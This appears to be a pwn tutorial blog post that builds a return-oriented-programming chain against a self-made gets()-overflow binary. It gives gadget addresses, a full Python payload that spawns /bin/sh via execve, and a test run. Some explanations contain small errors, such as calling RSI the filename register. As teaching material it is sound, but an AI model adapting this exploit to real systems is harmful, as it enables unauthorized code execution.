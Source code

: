 ```yaml
---
layout: post
title: "[Return Oriented Programming] Easy method"
categories: [pwn]
tags: [pwn]
description: How to bypass NX/ASLR protections with a statically linked binary using ROP on a x64 Linux system.
---
```


Tools:
1. objdump
2. ROPgadget

Binary protection:
1. Read Only relocations
2. No exec stack
3. No exec heap
4. ASLR

Compilation: Static

Architecture: x86_64

Operating System: Linux (Debian)

# 1. Vulnerable binary
For this exemple, I will take a very simple code.
```c
#include <stdio.h>

// gcc main.c -fno-stack-protector -Wl,-z,relro,-z,now,-z,noexecstack -static
int main()
{
  char buf[64];

  gets(buf);  // Never use this this function !
  printf("%s", buf);
  return 0;
}
```

Like you can see, the vulnerability is near the gets function. As the gets function does not control the size of the input data, we will easily can pass an exploit thanks to the ROP method.

# 2. To begin
Our goal is to get a shell. For this, I choose to use the execve syscall.

For remind: 
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```

So we will have:
RDI = "/bin//sh"
RSI = NULL
RDX = NULL
RAX = 59

# 3. Payload construction
To construct our payload, we will first need to set RSI (the filename arg of execve) to the string "/bin//sh". (double slash because of 64 bits architecture)
We will use the @data section to store our string. To get the data section address we will use objdump:
```bash
$ objdump -D a.out | grep data
...
Disassembly of section .data:
00000000006b4000 <__data_start>:
...
```

Ok, now we need the gadget to set RDI register.

We will need the following gadget:
```nasm
pop rdi                     ; to set RSI address point to the data section.
pop rsi                     ; to store tempararily the data section address. (because the binary does not contain "mov qword ptr [rdi], rax ; ret" gadget)
pop rax                     ; to store temporarily the string "/bin//sh".
mov QWORD PTR [rsi], rax    ; to move the string to the address pointed by rsi. (the data section address)
```

Thanks to ROPgadget, it's very easy to locate the gadget:
```bash
$ ROPgadget --binary a.out| egrep 'pop rsi ; ret|pop rax ; ret|mov qword ptr \[rsi\], rax ; ret|pop rdi ; ret'
...
0x000000000045f491 : mov qword ptr [rsi], rax ; ret
0x00000000004314ad : pop rax ; ret
0x00000000004016b7 : pop rsi ; ret
0x000000000040159b : pop rdi ; ret
...
```

After multiple test, I found 72 of padding before rewrite RIP.
So our payload will begin like this:
```python
p = 'A'*72
p += pack('<Q', 0x00000000004016b7) # pop rsi ; ret
p += pack('<Q', 0x00000000006b4000) # adress of the data section
p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000045f491) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040159b) # pop rdi ; ret
p += pack('<Q', 0x00000000006b4000) # adress of the data section
```

So now we just have to repeat this step for the next two arguments.
We will have:
```python
p += pack('<Q', 0x0000000000432d49) # pop rdx ; pop rsi ; ret
p += pack('<Q', 0x0000000000000000) # set rdx to NULL
p += pack('<Q', 0x0000000000000000) # set rsi to NULL
```

The last step is to set RAX to 59 (the number of execve syscall) and call the "syscall" instruction.
```python
p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += pack('<Q', 0x000000000000003b) # Set rax to 59
p += pack('<Q', 0x0000000000454515) # syscall ; ret
```

# 4. Exploitation
The whole payload:
```python
#!/usr/bin/env python2

from struct import pack

p = 'A'*72 # padding

p += pack('<Q', 0x00000000004016b7) # pop rsi ; ret
p += pack('<Q', 0x00000000006b4000) # address of data section
p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000045f491) # mov qword ptr [rsi], rax ; ret

p += pack('<Q', 0x000000000040159b) # pop rdi ; ret
p += pack('<Q', 0x00000000006b4000) # address of data section
p += pack('<Q', 0x0000000000432d49) # pop rdx ; pop rsi ; ret
p += pack('<Q', 0x0000000000000000) # set rdx to 0
p += pack('<Q', 0x0000000000000000) # set rsi to 0
p += pack('<Q', 0x00000000004314ad) # pop rax ; ret
p += pack('<Q', 0x000000000000003b) # Set rax to 59
p += pack('<Q', 0x0000000000454515) # syscall ; ret

print p
```

Now we test:
```bash
$ (python2 rop.py; cat) | ./a.out
id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
```

Done.
